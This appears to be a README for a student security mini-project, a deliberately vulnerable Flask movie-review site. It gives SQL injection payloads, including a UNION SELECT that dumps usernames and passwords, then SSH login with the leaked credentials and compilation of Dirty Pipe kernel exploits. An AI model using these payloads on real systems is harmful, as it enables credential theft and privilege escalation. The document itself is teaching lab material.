

# INF8602 mini-projet

Fake website with SQL injection vulnerability for user credential retrieval, then Dirty Pipe exploit on the server.

## Setup

### Install the required packages
```bash
pip install flask sqlite3
``` 

### Run the Flask app
```bash
python app.py
```
### [Access the app](http://127.0.0.1:5000)


## Exploit SQL injection

Test the SQL injection in search bar, if it returns all reviews, it means the SQL injection is successful.
```sql
' OR 1=1 --
```

Exploit the SQL injection to get users:
```sql
a%' UNION SELECT NULL AS id, 'leaked' AS user, username AS title, password AS comment, 0.0 AS rating FROM users --
```

### Dirty Pipe exploit

ssh into the server using leaked credentials
```bash
ssh Timmy@timmy-and-friends-movie-reviews.fr -p 2222 
```

compile the exploit
```bash
gcc -o dirty_pipe-1 dirty_pipe-1.c 
gcc -o dirty_pipe-2 dirty_pipe-2.c 
```
send it to the server using scp
```bash
scp -P 2222 yourfile.txt Timmy@timmy-and-friends-movie-reviews.fr:~
```





--- 

### Dirty pipe exploit code from 
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
